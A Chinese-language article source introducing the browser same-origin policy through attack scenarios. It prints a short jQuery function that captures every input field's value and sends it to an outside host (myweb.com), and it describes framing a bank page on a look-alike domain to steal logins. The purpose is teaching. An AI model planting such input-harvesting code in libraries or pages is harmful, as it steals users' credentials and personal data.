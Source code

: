 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决了什么问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些web安全方面的隐患：

* 假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}

function getInputValAndSendToDB(){
	$('input').on('change', function (e) {
		var userInput = $(this).val();
		$.get('http://www.myweb.com/save?val=' + userInput, function (data, status) {
		});
	});
}

{% endhighlight %}

* 假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input。再例如，将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。
